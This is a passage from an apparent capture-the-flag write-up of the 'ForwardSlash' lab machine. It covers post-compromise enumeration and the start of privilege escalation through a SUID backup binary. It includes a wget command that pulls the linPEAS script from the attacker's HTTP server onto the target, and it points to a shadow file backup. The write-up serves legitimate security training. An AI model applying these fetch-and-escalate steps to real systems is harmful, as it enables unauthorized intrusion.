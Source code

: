 ```
-rw------- 1 root shadow         1.2K Mar  6 14:21 shadow.bak
```

There are:

- `config.php.bak` owned by pain
- `note.txt` which is world readable
- `recovery` folder owned by the `backupoperator` group

The only thing we can read for now is `note.txt`:

```
Chiv, this is the backup of the old config, the one with the password we need to actually keep safe. Please DO NOT TOUCH.

-Pain
```

Let's try to enumerate more with the help of linPEAS (from [PEASS][PEASS]).

We have `/usr/share/peass/linPEAS/linpeas.sh`, let's just serve it via HTTP:

```
$ ruby -run -e httpd /usr/share/peass/linPEAS/ -p 8888
[2020-07-05 20:13:39] INFO  WEBrick 1.6.0
[2020-07-05 20:13:39] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-07-05 20:13:39] INFO  WEBrick::HTTPServer#start: pid=117003 port=8888
```

Now let's download it on the box:

```
chiv@forwardslash:/tmp/noraj$ wget http://10.10.15.32:8888/linpeas.sh
chiv@forwardslash:/tmp/noraj$ chmod u+x linpeas.sh
```

In the SUID section we can see an unusual `/usr/bin/backup`.

```
chiv@forwardslash:~$ ls -lh /usr/bin/backup
-r-sr-xr-x 1 pain pain 14K Mar  6 10:06 /usr/bin/backup
```

### Privilege Escalation : from chiv to pain

`backup` is owned by pain.

Let's try to run it:

```
chiv@forwardslash:~$ backup
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet,
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 18:37:43
ERROR: 01430555472f086a6633fad6bfc18d98 Does Not Exist or Is Not Accessible By Me, Exiting...
```
